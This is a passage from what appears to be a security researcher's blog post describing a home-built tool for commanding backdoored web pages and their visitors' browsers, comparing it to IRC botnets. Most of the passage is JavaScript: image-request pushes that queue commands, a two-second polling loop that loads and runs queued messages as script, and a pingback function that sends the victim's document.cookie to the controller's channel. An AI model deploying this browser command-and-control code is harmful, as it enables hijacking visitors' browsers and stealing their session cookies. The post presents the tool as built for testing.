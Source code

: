 > In summary, every communication channel that persists state with cookies, queues messages for clients and interact with them via [JSON](http://www.json.org/) may be exploited by web malware as prime communication mechanism between masters and zombies in a similar way to IRC.

For testing purposes I constructed a tool that is designed to control backdoored web content and the client that currently previews it. In the second part of this post I will explain what this tool does and how it can be used.

In order to achieve bi-directional communication in persistent fashion my tool makes use of push and pull mechanism via `HTTP GET` requests. Every client is defined by an identifier which in fact corresponds to their session identifier defined by a cookie. Pushing messages is as simple as making a GET request to an URL. For example:

```javascript
var img = new Image();
img.src = 'http://path/to/channel.php?action=push&client=<session_id>&message=alert("Hi There");';
```

The code above queues the message alert("Hi There"); for the client defined by client_id. Once the message is in the queue it has to be pulled. The server cannot just send the message to the client because there is no state. The client defined by client_id has to query the server on regular basis for new messages. For example:

```javascript
setInterval(function () {
	var script = document.createElement('script');
	
	script.src = 'http://path/to/channel.php?action=pull';
	script.differ = true;
	script.type = 'text/javascript';
	
	script.onload = function () {
		document.body.removeChild(script);
	}
	
	document.body.appendChild(script);
}, 2000);
```

Every two second a new request to `http://path/to/channel.php?action=pull` will be made to pull messages stored in the queue. These messages are evaluated as JavaScript. The server recognizes the client via the session cookie stored for it in the browser context. It is also possible to use `http://path/to/channel.php` instead of  http://path/to/channel.php?action=pull since this is the default action that will be executed from `channel.php` server script.

Because clients are recognized by their cookies attackers may want to keep them open for longer. In that respect the server would keep open sessions for more than a year for example. That of course can be set in the tool's configuration section. However, there is one minor problem. Because the session is open for a year there is no direct way to check if clients are available to attack. In order to solve this restriction, attackers can implement pingback mechanism on the top of the communication channel. This can be achieved in the following way:

```javascript
function pingback(session_id) {
	var img = new Image();
	img.src = 'http://path/to/channel.php?action=push&client=' + session_id + '&message=ping_receive("' + document.cookie + '")';
}
```
